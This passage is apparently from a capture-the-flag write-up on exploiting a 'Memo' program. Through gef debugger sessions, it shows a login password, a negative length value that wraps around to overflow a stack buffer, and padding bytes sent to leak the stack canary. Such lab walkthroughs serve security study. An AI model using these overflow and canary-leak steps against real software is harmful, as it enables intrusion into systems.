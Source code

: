 Remember option 2 which is a simple `puts`?

Let's say our stack currently looks like this:

```
gef➤  b *0x555555555a1c
Breakpoint 1 at 0x555555555a1c
gef➤  r
...
===================Memo Login===================
Please enter your password: CTF_is_interesting_isn0t_it?
Login Success!
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:3
...
gef➤  tele -l 40 $rdi
0x007fffffffdf30│+0x0000: 0x0000160000005e ("^"?)        ← $rax, $rdi
0x007fffffffdf38│+0x0008: 0x0000000000000000
...
0x007fffffffe030│+0x0100: 0x0000000000000000
0x007fffffffe038│+0x0108: 0x79910315d72cc100
0x007fffffffe040│+0x0110: 0x0000000000000001     ← $rbp
...
```

Our goal should be to leak the stack canary first. For this, since the canary is located at `0x108`, we aim to write *exactly* `0x109` (265) bytes into the buffer (ignoring the predictable null byte at the start).

(Note that `0xffffffff00000109` is -4294967031)

```
gef➤  c
Continuing.
How many characters do you want to change:-4294967031
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA||
Done!
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:3
...
gef➤  tele -l 40 $rdi
0x007fffffffdf30│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"      ← $rax, $rdi
0x007fffffffdf38│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
...
0x007fffffffe030│+0x0100: 0x7c41414141414141
0x007fffffffe038│+0x0108: 0x79910315d72cc17c
0x007fffffffe040│+0x0110: 0x0000000000000001     ← $rbp
...
```
